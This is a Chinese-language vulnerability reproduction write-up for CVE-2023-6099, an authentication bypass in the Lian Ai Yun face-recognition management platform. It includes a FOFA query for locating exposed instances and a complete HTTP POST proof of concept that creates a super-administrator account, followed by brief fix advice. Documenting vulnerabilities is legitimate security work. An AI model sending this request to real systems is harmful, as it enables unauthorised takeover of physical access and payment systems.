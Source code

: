
# 优卡特脸爱云一脸通智慧管理平台权限绕过漏洞复现（CVE-2023-6099）

### 0x01 产品简介

   脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。

   功能包括：系统管理中心、人员信息管理中心、设备管理中心、消费管理子系统、订餐管理子系统、水控管理子系统、电控管理子系统、考勤管理子系统、门禁通道管理子系统、会议签到管理子系统、访客管理子系统

### 0x02 漏洞概述

  脸爱云一脸通智慧管理平台/SystemMng.ashx 接口处存在权限绕过漏洞，通过输入 00 操纵参数 operatorRole，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户，造成信息泄露和后台接管（edu 刷分神洞）

### 0x03 影响范围

  version <=1.0.55.0.0.1

### 0x04 复现环境

FOFA：title=="欢迎使用脸爱云 一脸通智慧管理平台"

![](assets/1700442551-8c5182188b60c424ac9502811d1dbb95.png)

### 0x05 漏洞复现 

PoC

```http
POST /SystemMng.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=test&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![](assets/1700442551-bdc94d0d376516bdaeddbc219fa2fdbd.png) PS：成功创建了超级管理员 test/123456

登录后台验证

### ![](assets/1700442551-a98e26a302de9590c139e6bf7de436dc.png)0x06 修复建议

关闭互联网暴露面接口设置访问权限

升级至安全版本
